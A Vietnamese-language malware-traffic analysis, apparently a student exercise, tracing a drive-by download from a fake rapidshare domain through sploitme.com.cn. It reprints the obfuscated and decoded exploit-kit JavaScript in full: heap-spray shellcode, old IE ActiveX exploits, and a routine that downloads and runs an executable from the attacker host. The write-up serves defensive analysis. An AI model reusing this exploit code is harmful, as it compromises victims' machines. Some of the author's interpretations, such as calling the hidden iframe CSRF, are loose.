

# Phân tích tấn công mạng từ file PCAP
---

# I. Tools
- WireShark
- Scdbg

# II. Phân tích
[XEM TÓM TẮT TẠI ĐÂY](#iii-tóm-tắt-kịch-bản-tấn-công)

### 1. Xác định các địa chỉ IP và protocol cần phân tích.
Đầu tiên, em sẽ xem có bao nhiêu IP được capture trong file PCAP này, sử dụng option `Statistics > Endpoints`, em biết được có khoảng 20 được capture trong file.


Tiếp theo em sẽ xem xét protocol nào được sử dụng nhiều nhất với option `Statistics > Protocol Hierarchy Statistics`


Có thấy ngay protocol `TCP` được sử dụng nhiều nhất và trong đó đa phấn là `HTTP`

Xem thử các địa chỉ nào sẽ giao tiếp với nhau nhiều, sử dụng option `Statistics > Coversations`


Trong danh sách này, hầu hết là IP `10.0.3.15` thực hiện với các IP khác, nhiều nhất là với IP `192.168.56.50` và `192.168.56.52`

=> Từ những khảo sát sơ bộ trên, thông tin em cần chú ý nhiều là địa chỉ IP `10.0.3.15` và protocol `HTTP`

### 2. Phân tích chi tiết
Với thông trên, em bắt đầu với việc filter các packet liên quan đến chúng.

Địa chỉ IP này lần đầu tiên xuất hiện tại frame 128 và đang truy cập đến `rapidshare.com.eyu32.ru/login.php`


Frame này sử dụng method `GET` với không có bất kỳ tham số nào, có vẻ chỉ đơn giản là truy cập đến URI `/login.php`. Em đã thử follow TCP stream của frame trên để xem chi tiết request và reponse. Khi này, ở phần HTML được phản hồi về, em thấy một đoạn code khá là kỳ lạ.


Nó kỳ lạ bởi khi nhìn luồng xử lý, có vẻ như nó đang thực hiện chuyển đổi một chuỗi input, thêm vào đó là hàm `eval()` (cho phép thực thi code trong lưu trong kiểu dữ liệu `string`), nên em nghi ngờ đây là một **obfuscated code**. 

```JavaScript
eval(
  (function (p, a, c, k, e, r) {
    e = function (c) {
      return (
        (c < a ? '' : e(parseInt(c / a))) +
        ((c = c % a) > 35 ? String.fromCharCode(c + 29) : c.toString(36))
      )
    }
    if (!''.replace(/^/, String)) {
      while (c--) {
        r[e(c)] = k[c] || e(c)
      }
      k = [
        function (e) {
          return r[e]
        },
      ]
      e = function () {
        return '\\w+'
      }
      c = 1
    }
    while (c--) {
      if (k[c]) {
        p = p.replace(new RegExp('\\b' + e(c) + '\\b', 'g'), k[c])
      }
    }
    return p
  })(
    'q.r(s("%h%0%6%d%e%7%1%8%9%d%3%4%a%5%2%2%i%j%b%b%9%i%c%k%0%2%7%1%l%3%k%7%l%3%m%b%t%3%c%0%3%u%4%v%6%1%f%w%e%x%f%y%6%a%z%0%g%2%5%4%n%8%5%1%0%A%5%2%4%n%8%9%2%o%c%1%4%a%B%0%9%0%f%0%c%0%2%o%j%8%5%0%g%g%1%m%a%p%h%b%0%6%d%e%7%1%p%C"));',
    39,
    39,
    '69|65|74|63|3D|68|66|6D|20|73|22|2F|6C|72|61|62|64|3C|70|3A|6F|2E|6E|31|79|3E|document|write|unescape|3F|6B|33|35|36|32|77|67|76|0A'.split(
      '|'
    ),
    0,
    {}
  )
)
```

Khi thực thi đoạn code trên để lấy output của nó:


Output của nó là một iframe tag với source là URL `http://sploitme[.]com[.]cn/?click=3feb5a6b2f`. Điều đặc biệt là iframe này được ẩn đi khỏi giao diện web bằng config `style="visibility: hidden"`. Từ đây, em có thể hình dung đây là một dạng tấn công CSRF, bằng cách dẫn dụ nạn nhân nhấn vào iframe mà họ không hề hay biết.

Thật may là file có capture lại packet truy cập đến URL tại frame 150


Khi follow TCP stream của frame 150, đây là kết quả reponse của nó:



Khi truy cập đến URL `http://sploitme[.]com[.]cn/?click=3feb5a6b2f`, website trả về status code [302](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/302) với trường `Locaction: http://sploitme[.]com[.]cn/fg/show[.]php?s=3feb5a6b2f`. Điều này cho phép browser tự động chuyển hướng victim truy cập đến URL mới theo trường `Locaction`

Hành động truy cập đế URL mới được capture tại frame 157.


Follow theo frame này để xem HTML response của nó, em phát hiện một **obfuscated code** khác


```javascript
var CRYPT = {
  signature: 'CGerjg56R',
  _keyStr: 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=',
  decode: function (input) {
    var output = ''
    var chr1, chr2, chr3
    var enc1, enc2, enc3, enc4
    var i = 0
    input = input.replace(/[^A-Za-z0-9\+\/\=]/g, '')
    while (i < input.length) {
      enc1 = this._keyStr.indexOf(input.charAt(i++))
      enc2 = this._keyStr.indexOf(input.charAt(i++))
      enc3 = this._keyStr.indexOf(input.charAt(i++))
      enc4 = this._keyStr.indexOf(input.charAt(i++))
      chr1 = (enc1 << 2) | (enc2 >> 4)
      chr2 = ((enc2 & 15) << 4) | (enc3 >> 2)
      chr3 = ((enc3 & 3) << 6) | enc4
      output = output + String.fromCharCode(chr1)
      if (enc3 != 64) {
        output = output + String.fromCharCode(chr2)
      }
      if (enc4 != 64) {
        output = output + String.fromCharCode(chr3)
      }
    }
    output = CRYPT._utf8_decode(output)
    return output
  },
  _utf8_decode: function (utftext) {
    var string = ''
    var i = 0
    var c = 0,
      c2 = 0,
      c3 = 0
    while (i < utftext.length) {
      c = utftext.charCodeAt(i)
      if (c < 128) {
        string += String.fromCharCode(c)
        i++
      } else {
        if (c > 191 && c < 224) {
          c2 = utftext.charCodeAt(i + 1)
          string += String.fromCharCode(((c & 31) << 6) | (c2 & 63))
          i += 2
        } else {
          c2 = utftext.charCodeAt(i + 1)
          c3 = utftext.charCodeAt(i + 2)
          string += String.fromCharCode(
            ((c & 15) << 12) | ((c2 & 63) << 6) | (c3 & 63)
          )
          i += 3
        }
      }
    }
    return string
  },
  obfuscate: function (str) {
    var container = ''
    for (var i = 0, z = 0; i < str.length; i = i + 3, z++) {
      container += String.fromCharCode(
        str.substring(i, i + 3) -
          this.signature
            .substring(
              z % this.signature.length,
              (z % this.signature.length) + 1
            )
            .charCodeAt(0)
      )
    }
    return CRYPT.decode(container)
  },
}
eval(
  CRYPT.obfuscate(
    '157181187231195154135166180117123204195156160169153153187179201185191214128142198189161189196191200140103190165122187162181170153169180117149205214177211171152187120182200223192212126122130170144210184211201104140130146180175229195190106168156188190222191174168172129166183128168223196152151163160115168188171223176122132193157158179228189189118165157155187151203194176156153191153191181201159152151125201122171173188159204104128190166155150231196191152157163154149149211194193161141151124176198................'
  )
)
```

Follow theo đoạn code trên để lấy output


```javascript
function Complete() {
    setTimeout('location.href = "about:blank', 2000);
}function CheckIP() {
    var req = null;
    try {
        req = new ActiveXObject("Msxml2.XMLHTTP");
    } catch (e) {
        try {
            req = new ActiveXObject("Microsoft.XMLHTTP");
        } catch (e) {
            try {
                req = new XMLHttpRequest();
            } catch (e) {}
        }
    }if(req == null) return "0";
    req.open("GET", "/fg/show.php?get_ajax=1&r=" + Math.random(), false);
    req.send(null);
    if (req.responseText == "1") {
        return true;
    } else {
        return false;
    }
}var urltofile = 'http://sploitme.com.cn/fg/load.php?e=1';
var filename = 'update.exe';

function CreateO(o, n) {
    var r = null;
    try {
        r = o.CreateObject(n)
    } catch (e) {}if(!r) {
        try {
            r = o.CreateObject(n, '')
        } catch (e) {}
    }if(!r) {
        try {
            r = o.CreateObject(n, '', '')
        } catch (e) {}
    }if(!r) {
        try {
            r = o.GetObject('', n)
        } catch (e) {}
    }if(!r) {
        try {
            r = o.GetObject(n, '')
        } catch (e) {}
    }if(!r) {
        try {
            r = o.GetObject(n)
        } catch (e) {}
    }return r;
}function Go(a) {
    var s = CreateO(a, 'WScript.Shell');
    var o = CreateO(a, 'ADODB.Stream');
    var e = s.Environment('Process');
    var xhr = null;
    var bin = e.Item('TEMP') + '\\\\' + filename;
    try {
        xhr = new XMLHttpRequest();
    }catch(e) {
        try {
            xhr = new ActiveXObject('Microsoft.XMLHTTP');
        }\
        ncatch(e) {
            xhr = new ActiveXObject('MSXML2.ServerXMLHTTP');
        }
    }if(!xhr) return (0);
    xhr.open('GET', urltofile, false)\ nxhr.send(null);
    var filecontent = xhr.responseBody;
    o.Type = 1;
    o.Mode = 3;
    o.Open();
    o.Write(filecontent);
    o.SaveToFile(bin, 2);
    s.Run(bin, 0);
}function mdac() {
    var i = 0;
    var objects = new Array('{BD96C556-65A3-11D0-983A-00C04FC29E36}', '{BD96C556-65A3-11D0-983A-00C04FC29E36}', '{AB9BCEDD-EC7E-47E1-9322-D4A210617116}', '{0006F033-0000-0000-C000-000000000046}', '{0006F03A-0000-0000-C000-000000000046}', '{6e32070a-766d-4ee6-879c-dc1fa91d2fc3}', '{6414512B-B978-451D-A0D8-FCFDF33E833C}', '{7F5B7F63-F06F-4331-8A26-339E03C0AE3D}', '{06723E09-F4C2-43c8-8358-09FCD1DB0766}', '{639F725F-1B2D-4831-A9FD-874847682010}', '{BA018599-1DB3-44f9-83B4-461454C84BF8}', '{D0C07D56-7C69-43F1-B4A0-25F5A11FAB19}', '{E8CCCDDF-CA28-496b-B050-6C07C962476B}', null);
    while (objects[i]) {
        var a = null;
        if (objects[i].substring(0, 1) == '{') {
            a = document.createElement('object');
            a.setAttribute('classid', 'clsid:' + objects[i].substring(1, objects[i].length - 1));
        } else {
            try {
                a = new ActiveXObject(objects[i]);
            } catch (e) {}
        }\
        nif(a) {
            try {
                var b = CreateO(a, 'WScript.Shell');
                if (b) {
                    if (Go(a)) {
                        if (CheckIP()) {
                            Complete();
                        } else {
                            aolwinamp();
                        }\
                        nreturn true;
                    }
                }
            } catch (e) {}
        }\
        ni++;
    }aolwinamp();
}function aolwinamp() {
    try {
        var obj = document.createElement('object');
        document.body.appendChild(obj);
        obj.id = 'IWinAmpActiveX';
        obj.width = '1';
        obj.height = '1';
        obj.data = './directshow.php';
        obj.classid = 'clsid:0955AC62-BF2E-4CBA-A2B9-A63F772D46CF';
        var shellcode = unescape("%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u333D");
        var bigblock = unescape("%u0c0c%u0c0c");
        var headersize = 20;
        var slackspace = headersize + shellcode.length;
        while (bigblock.length < slackspace) bigblock += bigblock;
        var fillblock = bigblock.substring(0, slackspace);
        var block = bigblock.substring(0, bigblock.length - slackspace);
        while (block.length + slackspace < 0x40000) block = block + block + fillblock;
        var memory = new Array();
        for (var i = 0; i < 666; i++) {
            memory[i] = block + shellcode;
        }\
        ndocument.write('<SCRIPT language="VBScript">');
        document.write('bof=string(1400,unescape("%ff")) + string(1000,unescape("%0c"))');
        document.write('IWinAmpActiveX.ConvertFile bof,1,1,1,1,1');
        document.write('IWinAmpActiveX.ConvertFile bof,1,1,1,1,1');
        document.write('IWinAmpActiveX.ConvertFile bof,1,1,1,1,1');
        document.write('IWinAmpActiveX.ConvertFile bof,1,1,1,1,1');
        document.write('</SCRIPT>');
    } catch (e) {}directshow();
}function directshow() {
    var shellcode = unescape("%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u343D");
    var bigblock = unescape("%u9090%u9090");
    var headersize = 20;
    var slackspace = headersize + shellcode.length;
    while (bigblock.length < slackspace) bigblock += bigblock;
    var fillblock = bigblock.substring(0, slackspace);
    var block = bigblock.substring(0, bigblock.length - slackspace);
    while (block.length + slackspace < 0x40000) {
        block = block + block + fillblock;
    }var memory = new Array();
    for (var i = 0; i < 350; i++) {
        memory[i] = block + shellcode;
    }try {
        var obj = document.createElement('object');
        document.body.appendChild(obj);
        obj.width = '1';
        obj.height = '1';
        obj.data = './directshow.php';
        obj.classid = 'clsid:0955AC62-BF2E-4CBA-A2B9-A63F772D46CF';
        setTimeout("if (CheckIP()){ Complete(); } else { snapshot(); }", 1000);
    } catch (e) {
        snapshot();
    }
}function snapshot() {
    var x;
    var obj;
    var mycars = new Array();
    mycars[0] = 'c:/Program Files/Outlook Express/wab.exe';
    mycars[1] = 'd:/Program Files/Outlook Express/wab.exe';
    mycars[2] = 'e:/Program Files/Outlook Express/wab.exe';
    try {
        var obj = new ActiveXObject('snpvw.Snapshot Viewer Control.1');
    } catch (e) {
        try {
            var obj = document.createElement('object');
            obj.setAttribute('classid', 'clsid:F0E42D50-368C-11D0-AD81-00A0C90DC8D9');
            obj.setAttribute('id', 'obj');
            obj.setAttribute('width', '1');
            obj.setAttribute('height', '1');
            document.body.appendChild(obj);
        } catch (e) {}
    }try {
        if (obj = '[object]') {
            for (x in mycars) {
                obj = new ActiveXObject('snpvw.Snapshot Viewer Control.1');
                var buf = mycars[x];
                obj.Zoom = 0;
                obj.ShowNavigationButtons = false;
                obj.AllowContextMenu = false;
                obj.SnapshotPath = 'http://sploitme.com.cn/fg/load.php?e=6';
                try {
                    obj.CompressedPath = buf;
                    obj.PrintSnapshot();
                    var snpelement = document.createElement('iframe');
                    snpelement.setAttribute('id', 'snapiframe');
                    snpelement.setAttribute('src', 'about:blank');
                    snpelement.setAttribute('width', 1);
                    snpelement.setAttribute('height', 1);
                    snpelement.setAttribute('style', 'display:none;');
                    document.body.appendChild(snpelement);
                    setTimeout("document.getElementById('snapiframe').src = 'ldap://';", 3000);
                } catch (e) {}
            }
        }
    } catch (e) {}com();
}function com() {
    try {
        var obj = document.createElement('object');
        document.body.appendChild(obj);
        obj.setAttribute('classid', 'clsid:EC444CB6-3E7E-4865-B1C3-0DE72EF39B3F');
        if (obj) {
            var shcode = unescape("%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u373D");
            var hbs = 0x100000;
            var sss = hbs - (shcode.length * 2 + 0x38);
            var hb = (0x0c0c0c0c - hbs) / hbs;
            var myvar = unescape("%u0C0C%u0C0C");
            var ss = myvar;
            while (ss.length * 2 < sss) {
                ss += ss;
            }\
            nss = ss.substring(0, sss / 2);
            var m = new Array();
            for (var i = 0; i < hb; i++) {
                m[i] = ss + shcode;
            }\
            nvar z = Math.ceil(0x0c0c0c0c);
            z = document.scripts[0].createControlRange().length;
        }
    } catch (e) {}spreadsheet();
}function spreadsheet() {
    try {
        var objspread = new ActiveXObject('OWC10.Spreadsheet');
    } catch (e) {}if(objspread) {
        try {
            var shellcode = unescape("%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u732F%u6C70%u696F%u6D74%u2E65%u6F63%u2E6D%u6E63%u662F%u2F67%u6F6C%u6461%u702E%u7068%u653F%u383D");
            var array = new Array();
            var ls = 0x81000 - (shellcode.length * 2);
            var bigblock = unescape("%u0b0c%u0b0C");
            while (bigblock.length < ls / 2) {
                bigblock += bigblock;
            }\
            nvar lh = bigblock.substring(0, ls / 2);
            delete bigblock;
            for (var i = 0; i < 0x99 * 2; i++) {
                array[i] = lh + lh + shellcode;
            }\
            nCollectGarbage();
            var objspread = new ActiveXObject("OWC10.Spreadsheet");
            e = new Array();
            e.push(1);
            e.push(2);
            e.push(0);
            e.push(window);
            for (i = 0; i < e.length; i++) {
                for (j = 0; j < 10; j++) {
                    try {
                        objspread.Evaluate(e[i]);
                    } catch (e) {}
                }
            }\
            nwindow.status = e[3] + "";
            for (j = 0; j < 10; j++) {
                try {
                    objspread.msDataSourceObject(e[3]);
                } catch (e) {}
            }
        } catch (e) {}
    }Complete();
}mdac();
```

Đoạn code bắt đầu thực thi với function `mdac()`:
- Nó sẽ tạo một `object` HTML tag hoặc tạo một `ActiveXObject` với mỗi UUID trong array. 
- Sau đó, nó thực hiện tạo một object khác với tên là `WScript.Shell`.
- Nếu thành công, hàm `Go()` sẽ thực hiện download malware file từ `http://sploitme[.]com[.]cn/fg/load.php?e=1`, sau đó thực thi chúng thông qua `ActiveXObject`. 
- Tiếp theo, hàm `CheckIP()` được gọi, có vẻ như là để lấy IP của victim. Nếu thành công thì chuyển hướng browser đến `about:blank`.
- Cuối cùng thì hàm `aolwinamp()` sẽ thực thi, hàm thực thi khá là khó hiểu, nên em đã tự search tên hàm này trên mạng, và kết quả theo `https://fuzzysecurity.com/tutorials/expDev/8.html`, thì đây là một dạng tấn công `Heap Overflow`

Bây giờ, em sẽ phân tích file được download từ `http://sploitme[.]com[.]cn/fg/load.php?e=1`


Extract malware file bằng WireShark, và sử dụng tool `Scdbg` để xem luồng thực thi của nó.


Malware lại tiếp tục download một file khác từ `http://sploitme.com.cn/fg/load.php?e=8` với tên file là `e.exe`. Tiếc là PCAP không capture traffic đã download file này nên em không thể tiếp tục phân tích, nhưng có vẻ như là dạng `C2 attack` hoặc là tạo `backdoor`.

### Bonus
Khi xem traffic truy cập đến URI `/catalog/` từ IP `10.0.4.15`, em thấy trang này cũng có chứa **obfuscated code** trong HTML.


Khi deobfuscate cái code này, nó cũng tương tự như các code trên:


### 4. Tìm hiểu loại tấn công được sử dụng

Theo như phân tích trên, loại tấn công này phụ thuộc vào thực thi code được chèn trong HTML, tuy nhiên đoạn code có các class khá là lạ lẫm đối với em như `ActiveXObject`, `msDataSourceObject`,... Nên em đã kiểm tra User-agent để xác định loại trình duyệt:


IP `10.0.4.15` và `10.0.3.15` đều sử dụng **Internet Explorer version 6.0** và hệ điều hành là **Windows XP**. Khi search vuln liên quan đến trình duyệt này và pattern từ đoạn Javascript code `mdac()`, em đã tìm thấy **CVE-2005-2127**


### III. Tóm tắt kịch bản tấn công

Nạn nhân:
- `10.0.4.15`
- `10.0.3.15`

Phishing website:
- `http://rapidshare[.]com[.]eyu32[.]ru`

Server vận chuyển malware:
- `http://sploitme[.]com[.]cn`

Kịch bản tấn công:
- Nạn nhân sử dụng trình duyệt **Internet Explorer** truy cập đến `http://rapidshare[.]com[.]eyu32[.]ru`.
- Nếu nạn nhân click vào khu vực nào đó trong website thì sẽ bị chuyển hướng đến `http://sploitme[.]com[.]cn` chứa malicious code trong HTML, được dùng để exploit **CVE-2005-2127** để tải xuống malware, lưu tại `%AppData%/Local/Temp/e.exe` và thực thi con malware đó. 
- Cuối cùng, nó còn thực hiện tấn công DOS trên máy tính nạn nhân sau khi malware được thực thi

#### MITRE ATT&CK Techniques ID
| ID        |
| :--------:|
| T1071.001 | 
| T1140     | 
| T1059.003 | 
| T1204     | 
| T1189     | 